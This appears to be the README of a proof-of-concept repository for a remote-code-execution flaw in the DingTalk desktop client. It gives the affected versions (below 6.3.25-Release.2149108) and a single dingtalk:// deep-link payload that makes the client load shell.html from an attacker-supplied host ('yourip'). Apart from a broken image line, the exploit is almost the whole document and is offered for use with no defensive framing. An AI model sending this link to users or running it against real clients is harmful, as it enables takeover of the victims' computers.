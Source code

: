 dingtalk-RCE
影响版本:钉钉版本< 6.3.25-Release.2149108：

dingtalk://dingtalkclient/page/link?url=yourip/shell.html&pc_slide=true
